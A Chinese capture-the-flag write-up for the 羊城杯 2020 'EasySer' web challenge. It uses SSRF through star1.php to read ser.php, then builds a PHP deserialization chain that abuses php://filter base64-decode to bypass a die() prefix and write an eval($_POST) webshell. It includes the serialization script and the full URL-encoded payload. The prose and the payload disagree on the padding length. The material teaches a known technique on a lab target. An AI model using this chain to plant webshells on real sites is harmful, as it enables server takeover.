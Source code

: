 # \[羊城杯 2020]EasySer

## \[羊城杯 2020]EasySer

## 考点

* php://filter/write绕过“死亡exit”

## wp

打开链接是Apache2的默认界面，目录扫描存在robots.txt，index.php，flag.php

robots.txt提示访问star1.php

是一个URL访问的功能

![](<../.gitbook/assets/image (8).png>)

提示`用个不安全的协议从我家才能进ser.php`

直接用star1.php访问http://127.0.0.1/ser.php，可以得到源码

{% code title="ser.php" %}
```php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }}}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this->file,$a);
    }}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }}
```
{% endcode %}

典型的php://filter的妙用，绕过“死亡exit”。`$a`为要写入的shell，`$this->file`为`php://filter/write=convert.base64-decode/resource=shell.php`

`<?php die("nononon");?>`可以被base64识别的有13个字符，shell部分需要补3个字符，即`aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+`

```php
class GWHT{
    public $hero;
}
class Yongen{ // flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;   
    }}
// <?php eval($_POST[1]);?>
$a = new Yongen("php://filter/write=convert.base64-decode/resource=shell.php","aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$b = new GWHT();
$b->hero = $a;
echo urlencode(serialize($b));
```

然后找反序列化接收的参数，Arjun爆破出来两个参数是path和c

payload

`http://c98dc05c-c266-4a0d-ba66-660f7468b652.node4.buuoj.cn:81/star1.php?c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A59%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Dshell.php%22%3Bs%3A4%3A%22text%22%3Bs%3A33%3A%22aPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2B%22%3B%7D%7D&path=http://127.0.0.1/star1.php`

访问shell即可

![](<../.gitbook/assets/image (10).png>)
